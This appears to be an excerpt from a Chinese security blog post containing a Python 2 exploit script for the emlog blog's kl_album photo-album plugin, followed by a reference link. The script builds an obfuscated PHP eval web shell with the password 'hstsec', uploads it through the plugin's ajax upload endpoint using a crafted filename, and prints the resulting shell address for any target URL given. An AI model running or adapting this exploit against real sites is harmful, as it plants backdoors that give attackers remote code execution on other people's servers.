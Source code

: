     import sys, os, re, time
     
    try:
        import requests
    except ImportError:
        raise SystemExit('\n[!] requests模块导入错误,请执行pip install requests安装!')
    def usage():
        # os.system(['clear', 'cls'][os.name == 'nt'])
        print '+' + '-' * 60 + '+'
        print '\t Python emlog相册插件getshell exploit'
        print '\t   Blog：http://www.waitalone.cn/'
        print '\t\t Code BY： 独自等待'
        print '\t\t Time：2015-04-30'
        print '+' + '-' * 60 + '+'
        if len(sys.argv) != 2:
            print '用法: ' + os.path.basename(sys.argv[0]) + ' EMLOG 网站地址'
            print '实例: ' + os.path.basename(sys.argv[0]) + ' http://www.waitalone.cn/'
            sys.exit()
    def getshell(url):
        '''
        emlog相册插件上传getshell函数
        :param url:  emlog url地址
        :return:     返回得到的shell地址
        '''
        up_url = url + 'content/plugins/kl_album/kl_album_ajax_do.php'
        shell = "<?php @preg_replace('\\'a\\'eis','e'.'v'.'a'.'l'.'($_POST[\"hstsec\"])','a');?>"
        filename = "oneok'.php"
        with open(filename, 'wb') as shellok:
            shellok.write(shell)
        files = {
            'Filedata': (filename, open(filename, 'rb'), 'text/json'),
            'album': (None, 'waitalone.cn')
        }
        try:
            up_res = requests.post(up_url, files=files).content
            shellok = re.findall(re.compile(r'(?<=\.\./).+?(?=\',)'), up_res)
        except Exception, msg:
            print '\n[x] 发生错误了,卧槽!!!:', msg
        else:
            if shellok: return url + shellok[0]
    if __name__ == '__main__':
        usage()
        start = time.time()
        url = sys.argv[1]
        if url[-1] != '/': url += '/'
        ok = getshell(url)
        try:
            os.remove('oneok\'.php')
        except Exception:
            print '\n[x] 删除临时文件失败,请手工删除!'
        if ok:
            print '\n[!] 爷,人品暴发了，成功得到Shell：\n\n%s 密码：%s' % (ok, 'hstsec')
        else:
            print '\n[x] 报告大爷,本站不存在此漏洞!'
        print '\n报告爷,脚本执行完毕,用时:', time.time() - start, '秒!'

四、参考链接
------------

> https://blog.csdn.net/Fly\_hps/article/details/80582751
